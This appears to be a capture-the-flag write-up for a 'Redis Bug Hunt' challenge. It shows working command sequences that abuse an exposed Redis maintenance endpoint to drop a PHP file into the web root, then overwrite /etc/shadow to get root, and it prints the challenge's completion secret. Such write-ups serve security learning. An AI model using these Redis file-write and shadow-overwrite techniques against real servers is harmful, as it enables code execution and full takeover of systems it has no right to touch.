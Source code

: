# Redis Bug Hunt
Location: Kitchen

The objective is to retrieve the index.php file from the server.

## Approach 1: Pushing a PHP file into the Web Tree
This can be done using these commands:
```
curl http://localhost/maintenance.php?cmd=config,set,dir,/var/www/html
curl http://localhost/maintenance.php?cmd=config,set,dbfilename,m.php
curl 'http://localhost/maintenance.php?cmd=set,test,<?php%20echo%20file_get_contents("index.php");%20?>'
curl http://localhost/maintenance.php?cmd=save
curl http://localhost/m.php --output -
```

## Approach 2: Become root
The Redis password can be found with the above method in the file maintenance.php, it is `R3disp@ss`.
As the Redis server is running as `root`, we can overwrite `/etc/shadow` with new content. The `root` user's password is set to `Marie`.
```
player@95bbb6f62400:~$ printf "\n\nroot:cbMHDguL1fenw:16928:0:99999:7:::\n" > x
player@95bbb6f62400:~$ redis-cli --raw -a 'R3disp@ss' -x set 1 < x
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
OK
player@95bbb6f62400:~$ redis-cli --raw -a 'R3disp@ss' config set dir /etc
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
OK
player@95bbb6f62400:~$ redis-cli --raw -a 'R3disp@ss' config set dbfilename shadow
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
OK
player@95bbb6f62400:~$ redis-cli --raw -a 'R3disp@ss' save
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
OK
player@95bbb6f62400:~$ ls -l /etc/shadow
-rw-r--r-- 1 root root 243 Dec 30 18:07 /etc/shadow
player@95bbb6f62400:~$ su -
Password: 
root@95bbb6f62400:~# cat /etc/runtoanswer.yaml 
# This is the config file for runtoanswer, where you can set up your challenge!
---

# This is the completionSecret from the Content sheet - don't tell the user this!
key: 4ec1769f83fd212bcb9d22b2316d8706
```
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTU2MzQ1MjQwMSwyODg2OTcwMTksNDc4OT
U5MjY3LDczMDk5ODExNl19
-->